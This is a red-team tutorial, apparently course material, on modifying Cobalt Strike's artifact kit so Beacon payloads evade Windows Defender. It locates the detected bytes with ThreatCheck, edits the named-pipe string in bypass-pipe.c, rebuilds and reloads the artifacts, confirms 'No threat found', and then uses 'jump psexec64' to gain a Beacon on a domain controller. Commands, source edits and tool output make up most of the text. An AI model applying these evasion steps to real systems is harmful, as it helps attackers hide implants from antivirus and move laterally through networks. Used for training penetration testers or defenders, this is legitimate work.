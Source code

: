 The artifact kit produces "placeholder" binaries that contain all the logic for executing a Beacon, but without the actual Beacon payload inside. When a payload is generated from the Cobalt Strike UI, it takes one of these artifact files and patches it on-the-fly with Beacon shellcode. When executed, the artifact will load and run that shellcode.

Most artifacts will inject into themselves using VirtualAlloc/VirtualProtect/CreateThread. The service binary is the only one that performs remote injection.

Changing existing, or creating new templates, allows you to change how that shellcode is actually executed, and subsequently bypass AV signatures and/or behavioural analysis.

Before we start messing with changing the payload template, we need an idea of which part(s) Defender is detecting as malicious.  [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck) takes an input file which it splits into parts, then scans each part to try and find the smallest component that triggers a positive detection.

Generate a Windows Service EXE and save it to `C:\Payloads`, then scan it with ThreatCheck.

```
C:\>C:\Tools\ThreatCheck\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\beacon-smb-svc.exe
[+] Target file size: 289280 bytes
[+] Analyzing...

[...snip...]

[!] Identified end of bad bytes at offset 0x44E70
00000000   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000010   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000020   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000030   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000040   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000050   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000060   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000070   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000080   00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00   ················
00000090   5F 73 65 74 5F 69 6E 76  61 6C 69 64 5F 70 61 72   _set_invalid_par
000000A0   61 6D 65 74 65 72 5F 68  61 6E 64 6C 65 72 00 00   ameter_handler··
000000B0   77 69 6E 64 69 72 00 25  73 5C 53 79 73 74 65 6D   windir·%s\System
000000C0   33 32 5C 25 73 00 72 75  6E 64 6C 6C 33 32 2E 65   32\%s·rundll32.e
000000D0   78 65 00 00 00 00 00 00  00 00 00 00 00 00 00 00   xe··············
000000E0   25 63 25 63 25 63 25 63  25 63 25 63 25 63 25 63   %c%c%c%c%c%c%c%c
000000F0   25 63 4D 53 53 45 2D 25  64 2D 73 65 72 76 65 72   %cMSSE-%d-server

[*] Run time: 8.91s
```

ThreatCheck attempts to find the end of the "bad bytes" and produces a hex dump up from that point. So the content closest to the end is what we want to focus on. It looks like the detection is coming from the string `%c%c%c%c%c%c%c%c%cMSSE-%d-server`, which is a good starting point.

Searching for where **MSSE** appears in the kit, we find it's in `bypass-pipe.c`.

```
root@kali:/opt/cobaltstrike/artifact-kit# grep -r MSSE
src-common/bypass-pipe.c:       sprintf(pipename, "%c%c%c%c%c%c%c%c%cMSSE-%d-server", 92, 92, 46, 92, 112, 105, 112, 101, 92, (int)(GetTickCount() % 9898));
```

>  `bypass-pipe` is not the default set of artifacts that Cobalt Strike uses, `bypass-readfile` is. I've preconfigured CS to use `bypass-pipe`, because modifying this portion of the source code is easier to follow and understand.

The `dist-pipe` artifact will create a named pipe, read the shellcode over that pipe, and then executes it.

This line attempts to generate a pseudo-random pipe name. It seems as though it's already semi-obfuscated because of the slightly weird formatting. It produces a string that would look something like: `\\.\pipe\MSSE-1866-server`, where `1866` is from `GetTickCount` (which is the number of milliseconds elapsed since the computer started).

I'm an advocate of the **KISS** principle (**k**eep **i**t **s**imple, **s**tupid), so let's just change the strings **MSSE** and **server** to something different, such as:

```
sprintf(pipename, "%c%c%c%c%c%c%c%c%cRasta-%d-pipe", 92, 92, 46, 92, 112, 105, 112, 101, 92, (int)(GetTickCount() % 9898));
```

  

To build these changes, run the `build.sh` script.

```
root@kali:/opt/cobaltstrike/artifact-kit# ./build.sh
```

  

Within the `dist-pipe` directory you'll see a new list of artifacts that have been built, along with an `artifact.cna` file. The CNA file contains some Aggressor that tells Cobalt Strike to use these artifacts inside of the default ones.

```
root@kali:/opt/cobaltstrike/artifact-kit# ls -l dist-pipe/
total 2108
-rwxr-xr-x 1 root root 312334 Mar 17 09:25 artifact32big.dll
-rwxr-xr-x 1 root root 310286 Mar 17 09:25 artifact32big.exe
-rwxr-xr-x 1 root root  41998 Mar 17 09:25 artifact32.dll
-rwxr-xr-x 1 root root  39950 Mar 17 09:25 artifact32.exe
-rwxr-xr-x 1 root root 311822 Mar 17 09:25 artifact32svcbig.exe
-rwxr-xr-x 1 root root  41486 Mar 17 09:25 artifact32svc.exe
-rwxr-xr-x 1 root root 311808 Mar 17 09:26 artifact64big.exe
-rwxr-xr-x 1 root root 312320 Mar 17 09:26 artifact64big.x64.dll
-rwxr-xr-x 1 root root  41472 Mar 17 09:26 artifact64.exe
-rwxr-xr-x 1 root root 313344 Mar 17 09:26 artifact64svcbig.exe
-rwxr-xr-x 1 root root  43008 Mar 17 09:26 artifact64svc.exe
-rwxr-xr-x 1 root root  41984 Mar 17 09:25 artifact64.x64.dll
-rw-r--r-- 1 root root   2031 Mar 17 09:25 artifact.cna
```

Copy the whole `dist-pipe` directory to `C:\Tools\cobaltstrike\ArtifactKit`.

```
C:\Tools\cobaltstrike>pscp -r root@kali:/opt/cobaltstrike/artifact-kit/dist-pipe .
artifact32big.exe         | 303 kB | 303.0 kB/s | ETA: 00:00:00 | 100%
artifact64svcbig.exe      | 306 kB | 306.0 kB/s | ETA: 00:00:00 | 100%
artifact32svcbig.exe      | 304 kB | 304.5 kB/s | ETA: 00:00:00 | 100%
artifact64big.exe         | 304 kB | 304.5 kB/s | ETA: 00:00:00 | 100%
artifact64.exe            | 40 kB |  40.5 kB/s | ETA: 00:00:00 | 100%
artifact64.x64.dll        | 41 kB |  41.0 kB/s | ETA: 00:00:00 | 100%
artifact.cna              | 1 kB |   2.0 kB/s | ETA: 00:00:00 | 100%
artifact32svc.exe         | 40 kB |  40.5 kB/s | ETA: 00:00:00 | 100%
artifact32.exe            | 39 kB |  39.0 kB/s | ETA: 00:00:00 | 100%
artifact64svc.exe         | 42 kB |  42.0 kB/s | ETA: 00:00:00 | 100%
artifact32.dll            | 41 kB |  41.0 kB/s | ETA: 00:00:00 | 100%
artifact64big.x64.dll     | 305 kB | 305.0 kB/s | ETA: 00:00:00 | 100%
artifact32big.dll         | 305 kB | 305.0 kB/s | ETA: 00:00:00 | 100%
```
  
In Cobalt Strike, go to **Cobalt Strike > Script Manager** and you'll see that this is already loaded (as mentioned previously). There's no need to load it again, but just know this is where you can load/reload CNA files.

To test the new templates, generate the same service EXE payload as before and scan it with ThreatCheck.

Lo and behold…

```
C:\Tools>C:\Tools\ThreatCheck\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\beacon-smb-svc-dist-pipe.exe
[+] No threat found!
[*] Run time: 0.89s
```

Now when we try to jump to `dc-2`, the payload is not detected by AV and we get a Beacon.

```
beacon> jump psexec64 dc-2 smb
Started service c1d61c7 on dc-2
[+] established link to child beacon: 10.10.17.71
```

